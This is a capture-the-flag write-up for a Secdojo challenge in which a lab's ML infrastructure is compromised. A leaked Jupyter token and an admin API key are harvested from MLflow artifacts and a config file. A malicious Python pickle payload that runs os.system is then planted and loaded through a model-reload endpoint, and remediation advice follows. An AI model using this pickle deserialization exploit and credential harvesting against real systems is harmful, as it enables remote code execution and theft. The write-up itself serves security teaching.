





# OpenClaw — CTF Writeup  
  
**Category:** AI Security / ML Infrastructure  
**Difficulty:** Advanced  
**Points:** 200  
**Platform:** Secdojo  
**Challenge:** OpenClaw  
**Flag:** `flag_c5958d04_80a3_444b_a305_2ce97860e7ee`


# CTF Writeup: AI Infrastructure Exploitation (Pickle Deserialization)

## Target Environment

Initial reconnaissance revealed two exposed services:
*   **Jupyter Notebook** → [http://176.16.19.193:8888](http://176.16.19.193:8888)
*   **MLflow Tracking** → [http://176.16.19.193:5000](http://176.16.19.193:5000)

These services appeared to belong to the same AI infrastructure used for training and deploying models.

---

## Step 1 — MLflow Enumeration

MLflow provides APIs and a web interface for managing machine learning experiments.

During enumeration the following API endpoint was discovered:
[http://176.16.19.193:5000/api/2.0/mlflow/experiments/search](http://176.16.19.193:5000/api/2.0/mlflow/experiments/search)

Querying this endpoint revealed multiple experiment entries and associated metadata. While browsing the MLflow interface further, the following artifact was discovered:
[http://176.16.19.193:5000/#/experiments/5/runs/752b15b678424f32a87b38e8238ae655/artifactPath/config](http://176.16.19.193:5000/#/experiments/5/runs/752b15b678424f32a87b38e8238ae655/artifactPath/config)


Inside this artifact a **Jupyter authentication token** was exposed:
`d4f8a2e1c7b3d5f9a0e6b2c8d1f4a7e3`

> **Finding:** Sensitive credentials were stored inside MLflow artifacts and were accessible without authentication.

---

## Step 2 — Accessing Jupyter

Using the leaked token, authentication to the Jupyter server was possible at [http://176.16.19.193:8888](). Entering the token successfully granted access to the notebook environment.



The active container user was: `jovyan`

---

## Step 3 — Investigating the Training Notebook

Inside the workspace the following notebook was discovered:
`work/02-model-training.ipynb`



Within the notebook a crucial hint appeared:
```python
# CTF note: pickle serialization is the intentional vulnerability
````

This clearly suggested that Python pickle deserialization was the intended exploitation path. Further inspection showed how models were exported:


```
MODEL_PATH = '/home/jovyan/shared-models/model.pkl'

with open(MODEL_PATH, 'wb') as f:
    pickle.dump(model, f)
```

This confirmed that models were serialized using Python pickle, which is unsafe when loading untrusted data.

---

## Step 4 — Searching for Internal Configuration

Since access to the Jupyter environment was obtained as the jovyan user, further enumeration of the filesystem was performed. A configuration file was discovered at ~/.cyberclaw/config.yaml.



The file contained internal service configuration:

```
services:
  model_serving:
    url: http://model-server:8080
    admin_key: cl4w-r3l04d-s3cr3t-k3y
```

**This revealed:**

1. The internal model serving API URL.
    
2. A privileged admin API key.
    

---

## Step 5 — Understanding the Model Deployment Pipeline

The training notebook saves models to:  
/home/jovyan/shared-models/model.pkl

Inside the model‑serving container, this directory is mounted as:  
/models/model.pkl

Therefore, both paths reference the same file. Overwriting the model file in Jupyter would directly control the artifact loaded by the model server.

---

## Step 6 — Pickle Deserialization Exploit

Python's pickle module allows arbitrary code execution through the __reduce__() method. After researching techniques (e.g., [Huntr Blog](https://www.google.com/url?sa=E&q=https%3A%2F%2Fblog.huntr.com%2Fpickle-rickd-how-loading-a-malicious-pickle-can-pwn-your-machine)), a malicious payload was created:


```
import pickle
import os

class Malicious:
    def __reduce__(self):
        # Command to copy the flag to a shared accessible directory
        return (os.system, ("cat /root/proof.txt > /models/flag.txt",))

payload = pickle.dumps(Malicious())

with open("/home/jovyan/shared-models/model.pkl", "wb") as f:
    f.write(payload)
```

This payload overwrites the legitimate model with malicious serialized code.

---

## Step 7 — Triggering Model Reload

The model server exposes an admin endpoint used to reload the model from disk. Using the discovered API key, the following request was sent from the Jupyter notebook:

code Python

downloadcontent_copy

expand_less

```
import requests

requests.post(
    "http://model-server:8080/admin/reload",
    headers={"X-API-Key": "cl4w-r3l04d-s3cr3t-k3y"}
)
```

When the server executed pickle.load(), the payload triggered and ran the command: cat /root/proof.txt > /models/flag.txt.

---

## Step 8 — Retrieving the Flag

Because /models is a shared volume, the file became accessible from the Jupyter container at /home/jovyan/shared-models/flag.txt.


```
print(open("/home/jovyan/shared-models/flag.txt").read())
```

**Flag:** flag_c5958d04_80a3_444b_a305_2ce97860e7ee

---

## Full Attack Chain

1. **Discover** exposed services (Jupyter + MLflow)
    
2. **Enumerate** MLflow experiments and artifacts
    
3. **Discover** leaked Jupyter authentication token
    
4. **Access** Jupyter notebook environment
    
5. **Analyze** training notebook & identify unsafe pickle serialization
    
6. **Locate** internal config (~/.cyberclaw/config.yaml)
    
7. **Extract** model server admin API key
    
8. **Craft** malicious pickle payload
    
9. **Overwrite** model artifact in shared volume
    
10. **Trigger** model reload via API
    
11. **RCE** executes → reads /root/proof.txt
    
12. **Capture** flag from shared volume
    

---

## Vulnerability Summary

|   |   |
|---|---|
|Component|Issue|
|**MLflow Artifacts**|Sensitive credentials exposed without authentication.|
|**Jupyter Auth**|Token leaked through experiment artifacts.|
|**Model Serialization**|Unsafe use of Python pickle.|
|**Model Reload API**|Deserializes untrusted artifacts.|
|**Internal Config**|API keys stored in plaintext readable locations.|

### Root Cause

The model server loads serialized models using pickle.load(model_file). Since pickle allows arbitrary object reconstruction, attackers can embed malicious code that executes during deserialization, resulting in **Remote Code Execution (RCE)**.

---

## Remediation

|   |   |
|---|---|
|Finding|Fix|
|**MLflow Exposure**|Avoid storing secrets in experiment artifacts.|
|**Pickle Usage**|Replace with safe formats like ONNX, JSON, or Safetensors.|
|**Model Reload**|Validate artifacts (checksums/signatures) before loading.|
|**Internal Config**|Store secrets in secure managers (e.g., Vault, AWS Secrets Manager).|
|**Jupyter Access**|Restrict access via VPN/IP allowlisting and isolate environments.|

---

## Key Takeaways

- AI infrastructure introduces new attack surfaces combining ML tooling and web services.
    
- Pickle deserialization is inherently unsafe when loading untrusted artifacts.
    
- ML experiment platforms can leak sensitive information through stored artifacts.
    
- Shared volumes between training and inference environments can allow attackers to pivot across services.
    

## Flag

flag_c5958d04_80a3_444b_a305_2ce97860e7ee
